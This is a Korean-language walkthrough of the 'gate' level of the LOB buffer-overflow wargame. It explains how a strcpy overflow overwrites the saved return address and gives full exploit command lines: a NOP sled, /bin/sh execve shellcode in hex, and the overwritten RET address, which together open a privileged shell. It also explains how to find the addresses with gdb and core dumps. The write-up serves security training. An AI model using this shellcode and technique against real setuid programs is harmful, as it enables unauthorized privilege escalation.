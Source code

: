 # LOB - Gate

## 주어진 파일

![1567941739468](https://user-images.githubusercontent.com/52530785/64917066-bd3e8b80-d7c6-11e9-9d72-9cb26dfdacf1.png)


ID : gate

PW : gate로 접속한다.



![1567941702228](https://user-images.githubusercontent.com/52530785/64917065-bca5f500-d7c6-11e9-80a8-29d1e5dfac99.png)

```c
vi gremlin.c
```

![1567930461328](https://user-images.githubusercontent.com/52530785/64917072-bdd72200-d7c6-11e9-9d50-871b82e01c05.png)



위의 프로그램은 ./실행파일, 인자

를 넣어서 실행하는 파일로, 인자를 넣지 않는다면 error

인자를 넣는다면 인자를 그대로 출력해 주는 프로그램이다.

하지만, strcpy를 통해 buffer의 크기인 256을 넘어가면 문제가 생기게 된다.



## GDB

처음 gdb로 확인하려면 자신의 권한으로 까야하기 때문에 main 페이지에 있던 gremlin 파일을 디렉터리를 새로 만들어서 복사한다.

```mkdir
mkdir tmp
cp gremlin tmp/
```

![1567941473987](https://user-images.githubusercontent.com/52530785/64917064-bca5f500-d7c6-11e9-87c0-b57496d2586b.png)



복사를 하고 나면 소유자와 그룹이 gremlin 이었던 파일이 자신의 이름인 gate와 gate로 바뀐 것을 볼 수 있다.

이제 gdb를 실행할 수 있다.



```c
gdb gremlin
```

![1567931017425](https://user-images.githubusercontent.com/52530785/64917056-bb74c800-d7c6-11e9-9aa2-a25aeb459a51.png)



gdb로 main문을 보면 sub 0x100으로 버퍼 크기인 256 바이트가 보인다.



![1567930817522](https://user-images.githubusercontent.com/52530785/64917055-bb74c800-d7c6-11e9-9d84-fed0cdec97da.png)

위의 프로그램은 버퍼에 256 byte, SFP에 4 byte, RET에 4 byte 가 들어가서 



SFP :   Saved Frame Pointer로 프레임 포인터 값을 가지는 공간으로서 만약 main에서 다른 함수를 호출했을때, 돌아올 주소를 저장하는 공간이다.

-> EBP



RET은 Retrun Address 로써 프로그램이 마치면 돌아갈 주소를 저장하는 공간으로 bof의 궁극적 목적 공간이다.

이 ret을 조작하여 다른 곳으로 돌아가게 할 수 있으며, SetUID가 걸렸을 경우 쉘로 조작하여 상위 권한의 수을 얻을 수 있다.



RET은 우리가 실행해야할 주소가 들어가야하므로

Buffer 부분에 쉘코드를 집어 넣은 후 SFP까지 0x90으로 Nop 값을 채워주면 된다.

Buffer 는 256 byte

SFP 는 4 byte 이므로 260 byte를 채우고,

RET 에 내가 점프하고 싶은 부분의 주소를 넣으면 된다.



```c
buffer의 크기는 256 byte
SFP의 크기는 4 byte 
이므로 둘을 더한 260 byte (= 0x104)
    
./gremlin `python -c 'print "a"*0x104'`
를 실행하면 segmentation fault 가 뜬다.
```





## 쉘코드

- https://security-nanglam.tistory.com/117 에서 쉘코드 가져옴

![1567941320888](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567941320888.png)

```c
\x90으로 215 바이트
쉘코드 25 바이트
\x90 20바이트	를 채워서 Buffer + SFP 의 크기인 260 바이트를 채워주고
마지막에 RET 값을 넣는다.

./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"내가 점프하고 싶은 부분의 주소"'`
```

- 첫 부분에 쉘코드를 넣으면 정확한 주소 값을 알고 난 후 공격해야하므로 
- Nop으로 앞부분을 채워준 후 쉘코드 + Nop + RET 값을 넣는다.
- 하지만 쉘코드와 RET 주소 값을 가장 뒤에 같이 두면 쉘코드 뒤에 따라 나오는 값이 있을 수 있으므로

- 쉘코드 뒤에 어느 정도 Nop을 넣어준 후 마지막에 점프하고 싶은 부분의 주소(RET)를 넣어줘야한다.





일단 RET 부분에 aaaa를 넣고 aaaa가 어디에 들어가는지 보았다.

```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\x61\x61\x61\x61"'`
```



```c
gdb gremlin 명령어를 통해 gdb를 열고 위의 POC를 적는다.
```

![1567939292222](https://user-images.githubusercontent.com/52530785/64917058-bc0d5e80-d7c6-11e9-8b88-6c95eab1fa1f.png)



0x61616161 주소가 뭐냐고 묻는다.



- RET에 0x61616161이 들어갔으므로 eip에 들어간다.

![1567939240330](https://user-images.githubusercontent.com/52530785/64917057-bb74c800-d7c6-11e9-9bad-02fc344ca5e0.png)



```c
x/100wx $esp+300 명령어로 어떻게 값이 들어갔는지 보면
```

![1567939933686](https://user-images.githubusercontent.com/52530785/64917059-bc0d5e80-d7c6-11e9-9940-caf82cd73ceb.png)

위와 같이 Nop으로 값이 채워지고, 중간에 쉘코드, Nop, RET 값이 들어가는 것을 볼 수 있다.

이제 맨 마지막 0x61616161 자리에 Nop이 있는 주소 중 아무거나 넣어주면 된다.

하지만 tmp 디렉터리 내에서 실행하면 gremlin 파일이 gate 권한을 가지고 있으므로, main으로 돌아가서 실행한다.

![1567942068037](https://user-images.githubusercontent.com/52530785/64917070-bdd72200-d7c6-11e9-8dff-1f75f968d658.png)

```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\xdc\xfb\xff\xbf"'`
```





### 위의 명령어로 되지 않을때

하지만 gdb를 실행할때마다 주소값이 차이가 조금씩 나기 때문에,

위의 명령어로 되지 않을 수도 있다.

그래서 core 파일을 확인해본다.



- segmentation fault 날 때 core dumped 를 통해 나오는 core 파일을 확인한다.

![1567940758653](https://user-images.githubusercontent.com/52530785/64917060-bc0d5e80-d7c6-11e9-9d18-ca95717badab.png)

위와 같이 core dumped가 나오면



다음과 같이 core 파일이 생긴다.

![1567941218417](https://user-images.githubusercontent.com/52530785/64917063-bca5f500-d7c6-11e9-9b75-bf33f6e57427.png)



```c
gdb -c core 명령어를 통해 들어간 후
```

![1567940878365](https://user-images.githubusercontent.com/52530785/64917061-bc0d5e80-d7c6-11e9-8e0b-466fc4d3366c.png)



```c
x/100wx $esp+300 값을 통해 값이 어디에 들어갔는지 확인해본다.
```

![1567941114068](https://user-images.githubusercontent.com/52530785/64917062-bca5f500-d7c6-11e9-9e9c-0db3d87e1d26.png)



이 중 Nop 값 중 하나를 선택해서 RET에 넣으면 된다.

하지만 tmp 디렉터리 내에서 실행하면 gremlin 파일이 gate 권한을 가지고 있으므로, main으로 돌아가서 실행한다.

![1567942068037-1568525258114](https://user-images.githubusercontent.com/52530785/64917071-bdd72200-d7c6-11e9-97ae-2b51d32d9df7.png)




```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\xcc\xfb\xff\xbf"'`
```

![1567941814846](https://user-images.githubusercontent.com/52530785/64917068-bd3e8b80-d7c6-11e9-86d6-97af16e845a1.png)

쉘이 뜬다.



![1567941853794](https://user-images.githubusercontent.com/52530785/64917069-bdd72200-d7c6-11e9-91af-320ad4cbfafc.png)

ID를 보면 gremlin이 있다.

my-pass 를 보면 gremlin의 password가 나온다.
